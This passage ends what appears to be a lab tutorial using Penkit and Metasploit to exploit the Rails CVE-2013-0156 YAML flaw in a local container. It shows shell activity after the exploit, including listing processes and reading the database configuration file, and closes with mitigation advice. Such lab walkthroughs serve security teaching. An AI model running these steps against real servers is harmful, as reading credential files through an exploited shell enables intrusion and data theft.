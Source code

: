 Or system processes...

```bash
$ ps aux
ps aux
PID   USER     TIME   COMMAND
1 root       0:00 /sbin/tini -- su-exec ruby bundle exec rails s --port 8080 -b 0.0.0.0
8 ruby       0:02 /usr/bin/ruby script/rails s --port 8080 -b 0.0.0.0
17 ruby       0:00 /usr/bin/ruby script/rails s --port 8080 -b 0.0.0.0
48 ruby       0:00 ps aux
```

Or even database configuration...

```bash
cat config/database.yml
```

When you are done exploring, you can close the shell session by pressing `Ctrl+C`.

```bash
^C
Abort session 1? [y/N]  y

[*] 172.18.0.2 - Command shell session 1 closed.  Reason: User exit
```

Then exit Metasploit.

```bash
msf exploit(rails_xml_yaml_code_exec) > exit
```

And finally, clean up `rails` and any other Penkit containers.

```bash
$ penkit rm
Are you sure you want to remove 1 container? [y/N] y
5cfbfc643f1c
```

### Summary

[CVE-2013-0156] can be very nasty. If the target server has no port restrictions, then vulnerable Rails configurations could allow shell access through a simple YAML request.

You can mitigate this risk by:

- Upgrading Rails to version 3.2.11+
- Not including the `drb` module in your Rails applications

[CVE-2013-0156]: http://www.cvedetails.com/google-search-results.php?q=2013-0156